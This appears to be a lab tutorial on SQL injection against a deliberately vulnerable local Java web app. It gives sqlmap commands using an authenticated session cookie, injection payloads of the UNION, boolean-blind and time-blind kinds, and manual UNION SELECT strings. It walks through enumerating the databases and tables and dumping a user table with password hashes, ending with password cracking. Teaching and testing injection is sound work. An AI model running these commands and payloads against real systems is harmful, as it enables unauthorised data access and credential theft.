


java -jar vulnerable-webapp-1.2.0.jarjblogs and the default password is pa55word.sqlmap installed.sqlmap requires the JSESSIONID of an authenticated user. Follow the section Exploring the admin page to find out how to find this.https://codecurmudgeon.com/wp/sql-injection-hall-of-shame/
http://localhost:8080/user-admin. Authenticate with the default username and password.user-admin controller with a username query parameter.'test' into the search box and press the search button. fig 1 - User Admin Page
fig 2 - DevTools Storage Tab
To determine if an attack is possible on the admin page, use the following SQLMap command:
sqlmap -u http://localhost:8080/user-admin\?username\=jblogs --cookie=' JSESSIONID=<ID>'
SQLMap will generate SQL queries, add them to the username parameter, and perform an HTTP Get to the /user-admin endpoint.
This should produce a result similar (or identical) to the below:
sqlmap identified the following injection point(s) with a total of 48 HTTP(s) requests:
---
Parameter: username (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: username=jblogs' AND 2495=2495 AND 'mrAX'='mrAX
Type: time-based blind
Title: HSQLDB > 2.0 AND time-based blind (heavy query)
Payload: username=jblogs' AND CHAR(117)||CHAR(69)||CHAR(86)||CHAR(97)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'vARh'='vARh
Type: UNION query
Title: Generic UNION query (NULL) - 4 columns
Payload: username=jblogs\' UNION ALL SELECT NULL,CHAR(113)||CHAR(106)||CHAR(120)||CHAR(122)||CHAR(113)||CHAR(79)||CHAR(84)||CHAR(109)||CHAR(88)||CHAR(73)||CHAR(66)||CHAR(109)||CHAR(71)||CHAR(101)||CHAR(120)||CHAR(109)||CHAR(113)||CHAR(111)||CHAR(111)||CHAR(88)||CHAR(88)||CHAR(90)||CHAR(83)||CHAR(101)||CHAR(121)||CHAR(74)||CHAR(88)||CHAR(108)||CHAR(104)||CHAR(109)||CHAR(84)||CHAR(105)||CHAR(113)||CHAR(107)||CHAR(67)||CHAR(121)||CHAR(65)||CHAR(119)||CHAR(115)||CHAR(75)||CHAR(66)||CHAR(72)||CHAR(77)||CHAR(74)||CHAR(69)||CHAR(113)||CHAR(118)||CHAR(112)||CHAR(118)||CHAR(113),NULL,NULL FROM INFORMATION_SCHEMA.SYSTEM_USERS-- ljbB
---
[15:58:28] [INFO] the back-end DBMS is HSQLDB
The initial tests can determine which DBMS you're using. This can be achieved by triggering and looking for errors in the response. For example, if you injected this username into the search field:
'test'
You will see the stack trace contains the name of the DBMS:
Caused by: org.hsqldb.HsqlException: unexpected token: TEST
at org.hsqldb.error.Error.parseError(Unknown Source)
at org.hsqldb.ParserBase.unexpectedToken(Unknown Source)
...
The stack trace is quite important. This is one way sqlmap can determine a successful attack. There are other ways, the main types are listed below:
boolean-based blind - add a boolean condition to return 0 or all rows - should return a valid response.error-based: Determining if the SQL is being compiled and run. As the provided SQL is invalid, it should return an error response - if the error is propagated back to the caller in the HTTP response.stacked-queries - does the endpoint run stacked queries i.e. does it execute multiple queries separated by a ;. This is a powerful exploit, as you can then run arbitrary commands after the semi-colon.time-based-blind - force the database to sleep, hence the response should take that time to respond, if it does, indicates the dbms ran the query.union query - append a UNION SELECT statement into the existing parameter, and see if it is executed. This allows joining information from new and arbitrary SELECT statements with the original SELECT statement.To find all databases, run the SQLMap command:
sqlmap -v --dbs -u http://localhost:8080/user-admin\?username\=jblogs --cookie=' JSESSIONID=<ID>'
This should print out a list of databases to the console:
available databases [3]:
[ * ] INFORMATION_SCHEMA
[ * ] PUBLIC
[ * ] SYSTEM_LOBS
HSQLDB only has one database for the user tables namely; PUBLIC.
SQLMap does not need to understand specifics about the response format i.e. HTML. It uses hex characters as control or delimiters to indicate which part of the response it needs to extract. For example, navigate to http://localhost:8080/user-admin and enter the following into the search box:
jblogs' UNION ALL SELECT
NULL,CHAR(113)||CHAR(122)||CHAR(120)||CHAR(118)||CHAR(113)||IFNULL(CAST(table_schem AS LONGVARCHAR),CHAR(32))||CHAR(113)||CHAR(107)||CHAR(107)||CHAR(120)||CHAR(113),NULL,NULL FROM INFORMATION_SCHEMA.SYSTEM_SCHEMAS-- vmzM
You will see the databases are listed in the accounts table using a prefix of qzxvq and a suffix of qkkxq. It is then able to parse the databases out of the raw HTML text.
To find all the tables in one of the returned databases (PUBLIC here), run the SQLMap command:
sqlmap -v --tables -D PUBLIC -u http://localhost:8080/user-admin\?username\=jblogs --cookie=' JSESSIONID=
You should see an output similar to below:
[3 tables]
+------------------------+
| USER |
| ITEM |
| USER_ROLES |
+-------------------------+
This attack runs several queries to discover all the possible tables in the PUBLIC database. For example, you can try this in the search box:
jblogs' UNION ALL SELECT NULL,(SELECT LIMIT 0 1
CHAR(113)||CHAR(120)||CHAR(122)||CHAR(122)||CHAR(113)||IFNULL(CAST(table_name AS LONGVARCHAR),CHAR(32))||CHAR(113)||CHAR(98)||CHAR(112)||CHAR(107)||CHAR(113) FROM
INFORMATION_SCHEMA.SYSTEM_TABLES WHERE table_schem IN
(CHAR(80)||CHAR(85)||CHAR(66)||CHAR(76)||CHAR(73)||CHAR(67)) ORDER BY table_schem),NULL,NULL FROM
INFORMATION_SCHEMA.SYSTEM_USERS-- vDEk'
sqlmap --dump -T USER -D PUBLIC -u http://localhost:8080/user-admin\?username\=jblogs --cookie='JSESSIONID=<ID>'
USER table being dumped — including passwords!Database: PUBLIC
Table: USER
[2 entries]
+-------+--------------+-----------------------------------------------------------------------+----------------------+
| ID | ENABLED | PASSWORD | USERNAME |
+-------+--------------+-----------------------------------------------------------------------+----------------------+
| 0 | TRUE | 5f4dcc3b5aa765d61d8327deb882cf99 | jblogs |
| 1 | TRUE | c50672216e6be50f327c7df719784fe3 | jones |
+-------+--------------+-----------------------------------------------------------------------+----------------------+
sqlmap --dump -T USER -D PUBLIC --passwords -u http://localhost:8080/user-admin\?username\=jblogs --cookie='JSESSIONID=<ID>'
--flush-sessions to avoid using cached responses) and see if it can crack the new password.sqlmap --flush-session --dump -T USER -D PUBLIC --passwords -u http://localhost:8080/user-admin\?username\=jblogs --cookie='JSESSIONID=<ID>'